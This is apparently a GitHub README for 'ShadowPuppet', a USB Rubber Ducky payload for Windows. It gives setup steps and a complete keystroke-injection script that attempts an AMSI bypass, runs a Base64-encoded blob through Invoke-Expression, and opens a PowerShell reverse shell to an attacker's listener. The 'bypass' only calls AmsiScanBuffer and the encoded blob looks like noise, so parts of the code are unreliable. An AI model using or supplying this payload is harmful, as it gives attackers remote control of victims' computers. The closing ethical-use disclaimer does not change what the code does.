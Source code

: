 # ShadowPuppet Payload

## Overview

**ShadowPuppet** is a USB Rubber Ducky payload designed to bypass Windows' AMSI (Antimalware Scan Interface), download a hidden payload, and establish a reverse shell back to the attacker's machine. It takes advantage of PowerShell to execute the payload, and it uses obfuscation techniques to avoid detection.

---

## Key Features

* **AMSI Bypass**: A clever trick to bypass Windows' built-in malware protection system (AMSI).
* **Obfuscated Payload**: Payloads are Base64 encoded to hide their true nature from security tools.
* **Reverse Shell**: Opens a connection back to the attacker’s machine, giving full control over the target device.

---

## Requirements

Before using **ShadowPuppet**, you’ll need:

1. **USB Rubber Ducky**: This is a USB device that mimics a keyboard and automatically types out commands on the target system.
2. **PowerShell**: By default, PowerShell should be available on Windows systems.
3. **Attacker’s Machine**: The device used to receive the reverse shell connection.

   * Replace `YOUR_IP_ADDRESS` with the IP address of your machine.
   * Replace `YOUR_PORT` with the port you want to listen on for the reverse shell.

---

## Setting Up the Attacker's Machine

1. **Set up a listener** on the attacker's machine. You can use **Netcat** for this:

   ```bash
   nc -lvp YOUR_PORT
   ```

   This will open a listener on the specified port that waits for incoming connections.

2. **Compile the Payload**:

   Copy the code provided below into a text file called `payload.txt` and then use **DuckEncoder** to convert it into a `inject.bin` file.

   * Download DuckEncoder: [DuckEncoder GitHub](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/DuckEncoder).
   * Run the following command to compile the payload:

     ```bash
     java -jar DuckEncoder.jar -i payload.txt -o inject.bin
     ```

3. **Deploy the Payload**:

   * Copy the compiled `inject.bin` onto the **USB Rubber Ducky**.
   * Insert the **USB Rubber Ducky** into the target machine.
   * The payload will run automatically, bypassing AMSI and opening the reverse shell.

---

## The Payload Code

Here’s the code in `payload.txt` that you will compile and load onto the Rubber Ducky:

```plaintext
DELAY 500
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000

REM Bypass AMSI using reflection
STRING Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public class AMSI {
    [DllImport("amsi.dll", SetLastError = true)]
    public static extern int AmsiScanBuffer(IntPtr amsiContext, byte[] buffer, int length, out int result);
}
"@
ENTER
DELAY 500
STRING $null = [AMSI]::AmsiScanBuffer(0, [System.Text.Encoding]::ASCII.GetBytes("malicious code"), 20, [ref]$null)
ENTER

DELAY 500

REM Obfuscated payload downloader using PowerShell
STRING $payload = "JAB3AHYAYwB6aXn4cTp2YfhgA2Stw5kOrP5pQ5O72cm8aLg72g=="  
ENTER
DELAY 500
STRING $decoded = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($payload))
ENTER
DELAY 500
STRING Invoke-Expression $decoded
ENTER

DELAY 500
STRING Write-Host "Payload executed successfully."
ENTER

DELAY 500

REM Reverse Shell Setup (Example)
STRING $ip = "YOUR_IP_ADDRESS"
ENTER
DELAY 500
STRING $port = "YOUR_PORT"
ENTER
DELAY 500
STRING $client = New-Object System.Net.Sockets.TCPClient($ip, $port)
ENTER
DELAY 500
STRING $stream = $client.GetStream()
ENTER
DELAY 500
STRING [byte[]]$bytes = 0..255|%{0}
ENTER
DELAY 500
STRING while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
ENTER
DELAY 500
STRING     $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
ENTER
DELAY 500
STRING     $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
ENTER
DELAY 500
STRING     $sendback2 = $sendback + "PS " + (pwd).Path + "> "
ENTER
DELAY 500
STRING     $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
ENTER
DELAY 500
STRING     $stream.Write($sendbyte, 0, $sendbyte.Length)
ENTER
DELAY 500
STRING     $stream.Flush()
ENTER
DELAY 500
STRING }
ENTER

DELAY 500
STRING Write-Host "Reverse shell initiated."
ENTER
```

---

## Important Notes

* **Replace IP and Port**: Don't forget to replace `YOUR_IP_ADDRESS` and `YOUR_PORT` with the IP and port you are listening on.
* **Testing**: Only test this in controlled environments where you have explicit permission. Unauthorized use is illegal.
* **Ethical Use**: This tool is designed for penetration testing, ethical hacking, and educational purposes only. Do not use it on systems without consent.

---

## Legal Disclaimer

By using this payload, you acknowledge that you are conducting this activity in an authorized and ethical manner. Unauthorized access to computer systems is illegal and can result in criminal charges. This tool is for educational use only, and you should only use it for legitimate security testing, like in penetration testing environments or bug bounty programs where you have written permission to test systems.
